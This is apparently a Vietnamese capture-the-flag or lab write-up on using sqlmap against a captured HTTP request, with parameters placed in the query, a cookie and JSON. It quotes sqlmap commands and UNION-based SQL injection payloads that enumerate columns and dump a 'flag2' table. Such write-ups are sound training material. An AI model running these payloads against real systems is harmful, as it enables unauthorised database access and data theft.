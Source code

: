 <h1>Running SQLMap on an HTTP Request</h1>

![image](https://github.com/user-attachments/assets/f7e4c7f3-c852-47df-afe8-caccbe23cbe6)

![image](https://github.com/user-attachments/assets/581a802c-657d-48ff-8332-b769a30ccd68)

Giao diện web khi tôi truy cập vào:

![image](https://github.com/user-attachments/assets/cb955abc-53d3-4025-8739-cc46f61a99cb)

Bắt đầu với case2:

![image](https://github.com/user-attachments/assets/fc062b3f-0301-4010-952f-5f3bb8072ed3)

Sau khi submit id=1 thì ra cái này:

![image](https://github.com/user-attachments/assets/6029ae27-e0ae-4d36-a79e-92e63ab32a09)

Tôi dùng burp bắt request lại và đưa vào file req.txt:

![image](https://github.com/user-attachments/assets/ae7e65e6-41f7-469c-9fb9-aab0779138b2)

Rồi tôi chạy `sqlmap -r req.txt`:

![image](https://github.com/user-attachments/assets/826c2b9c-64a5-41b1-8f43-4a5d9fb20182)

![image](https://github.com/user-attachments/assets/3b183864-9dac-4c31-87d5-13e6ea3ba2f9)

Và kết quả nhận lại 3 loại sqli, tôi tin chọn dùng UNION query cho nhanh, đầu tiên là thử payload `1 UNION SELECT 1, 2, 3, 4, 5, 6, 7, 8, 9 -- -` để check thử:

![image](https://github.com/user-attachments/assets/8a9c8389-b0d0-4696-81ba-fa7d49d658b8)

Thấy chạy ổn ổn thì tôi sẽ xem thử trong bảng flag2 có những cột nào bằng payload `1 UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,5,6,7,8,9 from INFORMATION_SCHEMA.COLUMNS where table_name='flag2'-- -`:

![image](https://github.com/user-attachments/assets/acf11b04-e543-4808-855e-39e5363e8455)

Nhìn vào tôi thấy được bảng flag2 thuộc testdb và gồm có 2 cột là id và content, dùng `1 UNION select 1, id, content, 4,5,6,7,8,9 from flag2-- -` để lấy content và id và flag2:

![image](https://github.com/user-attachments/assets/6757d16b-2421-44aa-8bec-805539cbbebf)

Đối với case3 thì cái id lại nằm trong cookie nên sqlmap không nhận ra được:

![image](https://github.com/user-attachments/assets/6c154c94-0ab1-4e66-a51d-332ad23c911d)

![image](https://github.com/user-attachments/assets/1a0f69dd-f446-4f97-8f02-4b371a1b010e)

Và sqlmap cũng bảo thêm cái --crawl vào nên tôi chạy lệnh `sqlmap -r req.txt --crawl=2 --batch` và kết quả đây:

![image](https://github.com/user-attachments/assets/e2dbdba7-48a0-4de8-8596-720663d37f13)

Lại như trước thôi:

![image](https://github.com/user-attachments/assets/4e470eec-07b9-4553-82c1-32d749ad30ef)

![image](https://github.com/user-attachments/assets/b6ae55c7-47ff-49f3-9d94-0b70f9371421)

case4 thì có id nằm trong json, dù thế thì vẫn như cũ thôi:

![image](https://github.com/user-attachments/assets/04b09f8e-4b57-4350-81e1-d6299cbb4e62)

![image](https://github.com/user-attachments/assets/4299aa7b-9871-4671-9796-0aa6436b29e5)

![image](https://github.com/user-attachments/assets/8908b8dc-ab87-4208-8612-e49629c71936)
